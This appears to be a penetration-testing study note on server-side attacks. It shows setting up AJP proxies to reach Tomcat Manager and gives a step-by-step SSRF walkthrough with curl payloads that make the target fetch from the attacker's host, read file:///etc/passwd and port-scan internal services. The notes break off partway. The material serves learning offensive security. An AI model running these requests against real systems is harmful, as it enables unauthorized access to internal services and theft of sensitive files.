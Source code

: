 ```yaml
---
title: Notes | Server Side Attacks
author: Zeropio
date: 2022-07-31
categories: [Notes, Vulnerabilities]
tags: [ssrf, ssi, esi, ssti]
permalink: /notes/vulnerabilities/server-side-attacks
---
```


Server-Side attacks target the application or service provided by a server, whereas the purpose of a client-side attack is to attack the client. These are the types of serve side attacks:
- **Abusing Intermediary Applications**
- **Server-Side Request Forgery** (**SSRF**)
- **Server-Side Includes Injection** (**SSI**)
- **Edge-Side Includes Injection** (**ESI**)
- **Server-Side Template Injection** (**SSTI**)
- **Extensible Stylesheet Language Transformations Server-Side Injection** (**XSLT**)

---

# Abusing Intermediary Applications 

According to Apache, **AJP** (or **JK**) is a wire protocol. It is an optimized version of the HTTP protocol to allow a standalone web server such as Apache to talk to Tomcat. Historically, Apache has been much faster than Tomcat at serving static content. When we come across an open AJP proxy port (**8009 TCP**), we can use Nginx with the `ajp_module` to access the *hidden* Tomcat Manager. This can be done by compiling the Nginx source code and adding the required module, as follows:
- Download the Nginx source code
- Download the required module
- Compile Nginx source code with the `ajp_module`.
- Create a configuration file pointing to the AJP Port

To download the code and compile it:
```console
zero@pio$ wget https://nginx.org/download/nginx-1.21.3.tar.gz 
zero@pio$ tar -xzvf nginx-1.21.3.tar.gz
zero@pio$ git clone https://github.com/dvershinin/nginx_ajp_module.git; cd nginx-1.21.3 
zero@pio$ sudo apt install libpcre3-dev
zero@pio$ ./configure --add-module=`pwd`/../nginx_ajp_module --prefix=/etc/nginx --sbin-path=/usr/sbin/nginx --modules-path=/usr/lib/nginx/modules 
zero@pio$ make
zero@pio$ sudo make install
zero@pio$ nginx -V
```

In `/etc/nginx/conf/nginx.conf`{: .filepath} comment out the entire server block and append the following lines:
```
    upstream tomcats {
        server <SERVER>:<PORT>;
        keepalive 10;
        }
    server {
        listen 80;
        location / {
                ajp_keep_conn on;
                ajp_pass tomcats;
        }
     }
```

> Port 80 can be taken by other service. Change as you wish.
{: .prompt-info}

Start Nginx and check if everything is working correctly by issuing a cURL request to your local host:
```console
zero@pio$ sudo nginx
zero@pio$ curl http://127.0.0.1:80
```

Apache has the AJP module precompiled for us. We will need to install it, though, as it doesn't come in default installations. Configuring the AJP-Proxy in our Apache server can be done as follows:
- Install the libapache2-mod-jk package
- Enable the module
- Create the configuration file pointing to the target AJP-Proxy port

This will be the process:
```console
zero@pio$ sudo apt install libapache2-mod-jk 
zero@pio$ sudo a2enmod proxy_ajp; sudo a2enmod proxy_http 
zero@pio$ export TARGET="<TARGET_IP>" 
zero@pio$ echo -n """<Proxy *>
Order allow,deny
Allow from all
</Proxy>
ProxyPass / ajp://$TARGET:8009/
ProxyPassReverse / ajp://$TARGET:8009/""" | sudo tee /etc/apache2/sites-available/ajp-proxy.conf 
zero@pio$ sudo ln -s /etc/apache2/sites-available/ajp-proxy.conf /etc/apache2/sites-enabled/ajp-proxy.conf 
zero@pio$ sudo systemctl start apache2
```

Now we can access the Tomcat Manager with a cURL or even in the browser accessing the localhost. 

--- 

# Server-Side Request Forgery 

Server-Side Request Forgery (**SSRF**) attacks allow us to abuse server functionality to perform internal or external resource requests on behalf of the server. Exploiting SSRF vulnerabilities can lead to:
- Interacting with known internal systems
- Discovering internal services via port scans
- Disclosing local/sensitive data
- Including files in the target application
- Leaking NetNTLM hashes using UNC Paths (Windows)
- Achieving remote code execution

We can usually find SSRF vulnerabilities in applications that fetch remote resources. When hunting for SSRF vulnerabilities, we should look for: 
- Parts of HTTP requests, including URLs
- File imports such as HTML, PDFs, images, etc.
- Remote server connections to fetch data
- API specification imports
- Dashboards including ping and similar functionalities to check server statuses

## Example

This will be the work flow of a SSRF attack. First the enumeration with Nmap:
```console
zero@pio$ nmap -sT -T5 --min-rate=10000 -p- <TARGET> 
...
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
...
```

Let's cURL the header:
```console
zero@pio$ curl -i -s http://<TARGET>
...
<p>You should be redirected automatically to target URL: <a href="/load?q=index.html">/load?q=index.html</a>. If not click the link. 
...
```

We see a redirection in the parameter `q`. Let's follow it:
```console
zero@pio$ -i -s -L http://<TARGET>
```

The spawned target is an application on the internal network, inaccessible from our current position. The next step is to confirm if the `q` parameter is vulnerable to SSRF. In one terminal, let's use Netcat to listen on port 8080. Now, let us issue a request to the target web application with `http://<OUR IP>` instead of `index.html`{: .filepath} in another terminal, as follows:
```console
zero@pio$ curl -i -s -L http://<TARGET>/load?q=http://<OUR IP>:8080
```

If we see this on our Netcat, there is SSRF:
```console
zero@pio$ nc -lvnp 8080
listening on [any] 8080 ...
connect to [<OUR IP>] from (UNKNOWN) [<TARGET>] 43174
GET / HTTP/1.1
Accept-Encoding: identity
Host: <OUR IP>:8080
User-Agent: Python-urllib/3.8
Connection: close
```

We see that there is a **Python urllib**. This library supports **file**, **http** and **ftp** schemas. Start creating a `index.html`{: .filepath}:
```html
<html>
</body>
<a>SSRF</a>
<body>
<html>
```

Start a HTTP server:
```console
zero@pio$ python3 -m http.server 9000
```

Start a FTP server:
```console
zero@pio$ sudo pip3 install twisted; sudo python3 -m twisted ftp -p 21 -r .
```

Now test the three of them:
```console
zero@pio$ curl -i -s "http://<TARGET IP>/load?q=ftp://<OUR IP>/index.html"

HTTP/1.0 200 OK

zero@pio$ curl -i -s "http://<TARGET IP>/load?q=http://<OUR IP>:9000/index.html"

HTTP/1.0 200 OK

zero@pio$ curl -i -s "http://<TARGET IP>/load?q=file:///etc/passwd" 

HTTP/1.0 200 OK
```

> Fetching remote HTML files can lead to Reflected XSS.
{: .prompt-tip}

Remember, we only have two open ports on the target server. However, there is a possibility of internal applications existing and listening only on localhost. We can use a tool such as ffuf to enumerate these web applications:
```console
zero@pio$ for port in {1..65535};do echo $port >> ports.txt;done 
zero@pio$ ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://127.0.0.1:PORT" -fs <NUMBER>
```

If we receive a valid response for some port test it:
```console
zero@pio$ curl -i -s "http://<TARGET IP>/load?q=http://127.0.0.1:5000" 

HTTP/1.0 200 OK
```

Let's try aiming for a internal web application, like `internal.app.local`:
```console
zero@pio$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=index.html"

HTTP/1.0 200 OK
```

Let's try accessing it:
```console
zero@pio$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http://127.0.0.1:1"

HTTP/1.0 200 OK 
...
<html><body><h1>Resource: http127.0.0.1:1</h1><a>unknown url type: http127.0.0.1</a></body></html>
```

It doesn't understant our request now. This can be because It is filtering the `://`.






































